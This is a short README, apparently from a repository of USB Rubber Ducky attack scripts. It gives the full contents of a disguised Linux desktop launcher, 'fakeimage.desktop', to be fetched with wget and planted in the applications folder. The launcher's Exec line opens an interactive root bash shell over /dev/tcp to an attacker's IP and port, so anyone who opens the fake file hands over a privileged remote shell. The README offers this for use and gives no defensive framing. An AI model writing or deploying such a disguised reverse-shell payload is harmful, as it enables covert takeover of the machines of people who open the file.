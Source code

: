 # Rubber-Ducky-Scripts
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop
**[Desktop Entry]
Encoding=UTF-8
Name=Open_Custom_File
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1
Terminal=true
Type=Application
Icon=notebook**
